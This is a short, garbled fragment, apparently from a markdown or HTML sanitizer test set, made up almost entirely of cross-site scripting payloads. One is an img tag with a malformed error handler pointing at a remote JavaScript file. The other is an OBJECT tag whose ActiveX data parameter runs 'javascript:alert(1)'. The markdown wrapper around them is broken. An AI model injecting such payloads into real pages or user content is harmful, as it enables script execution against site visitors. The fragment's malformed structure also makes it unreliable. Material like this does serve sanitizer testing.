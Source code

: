 ![

<img src="" nerror="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>

](()
